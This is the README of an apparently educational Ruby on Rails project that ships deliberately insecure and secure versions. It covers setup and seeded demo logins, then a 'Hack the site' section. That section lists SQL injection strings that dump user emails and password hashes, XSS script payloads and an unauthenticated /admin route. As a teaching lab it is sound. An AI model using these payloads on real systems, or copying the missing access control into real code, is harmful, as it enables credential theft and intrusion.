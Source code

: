 # Project Title

This is my Ruby On Rails Project This is the insecure code 

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Downloads

The things you need before installing the software.

#### For Windows 
* Ruby Installer: https://rubyinstaller.org/ (The version i was using is 3.1.2)
* SQLite: https://www.sqlite.org/index.html (The version i was using is3.39.4)
#### For Mac and others)
please follow this guide: https://www.ruby-lang.org/en/downloads/

### Installation
When ruby is installed run these commands to run the application

Open up command terminal (cmd)
check the version of ruby and ruby gem by 

```
$gem -v
```
```
$ruby -v
```

Next install rails by using 

```
$gem install rails
```
When this is complete check the version of rails (im using rails 7.0.4.3)
gem install rails

```
$rails -v 
```
## Usage

To run the application simply download the github secure project and insecure project. 
Once downloaded redirect to the directory the project is saved in 
make sure you are in the application directory, Once in the directory run bundle install to install all the gems needed

```
$ bundle install
```

There will be some pending migrations that will need to be migrated before running 
```
$ rails db:migrate
```

## Seed the application 
Run this to seed the application with users 
```
$ rake seed_data
```
This will give you admin users and normal users 

### Users details  
These are the user details that have been generated There are more if you want to check the rake file found in lib/tasks/seed_data.rake
#### Admin Users
username: jenny@gmail.com
password: pancake

#### Users
username: kev@gmail.com
password: coffeecake

username: slvy@gmail.com
password: cake

### Run localhost 
Once installed and seeded you can choose to run it on a localhost or through an ip
To run it on a localhost just type in the terminal 
```
$ rails server
```
This will start the Rails server, and you can access your application by opening a web browser and going to http://localhost:3000

### Run through local ipv4
Find your Ipv4 address
```
$ ip config
```
This will run it on port 3000 

```
$ rails s -b 0.0.0.0
```
In order to connect to the site use your ipv4 address and the port
Ip will look like 192.111.1.111:3000 This is a sample and fake ipv4 address and will be different for you 
You can access your application by opening a web browser and typing your ip along with the port

### Branches

* Secure
* Insecure

## Additional Documentation and Acknowledgments
if there are any issues with installations please follow the ruby on rails guide documentation
* https://www.ruby-lang.org/en/downloads/
* https://guides.rubyonrails.org/getting_started.html


# Hack the site 

## Info About Insecure and Secure App
Here I intentionally made the button look out dated to show a security flaws. This is the insecure site so it will look differnt than to the secure site where the layout and looks are being validated and are using proper buttons such as primary and secondary buttons. naming conventions have stayed the same to be able to compare between the code only difference is the body is called content on the insecure app while its called context on the secure one There are no authentication between sites like going to /admin on the url.

## SQL Inject the Search button using the commands!
This will display the email and password:
```
Cake') union select 1, email, encrypted_password, null, null, true from users --
```

This will display the email and address:
```
Cake') union select 1, email, address, null, null, true from users --
```
This will display the email, password and users that are Admin:
```
Cake') union select 1, email, encrypted_password, null, null, true from users where admin = true --
```
This will display private posts:
```
Cake' or 1=1)
```
## XSS the subscribe button in the Home page using the command!
This will inject an alert script:
```
<script>alert('XSS Attack')</script>
```
This will run a script to change the css properties (background color to red):
```
<script>function changeBackground(color) { document.body.style.background = color; } window.addEventListener("load",function() { changeBackground('red') });</script>
```
## Broken Access Control
Access the admin page by typing this at the end of the url
```
/admin
```
### sample Url
This is wht the url will look like when you type the /admin at the end of the url
```
192.111.1.111:3000/admin
```
```
http://localhost:3000/admin
```

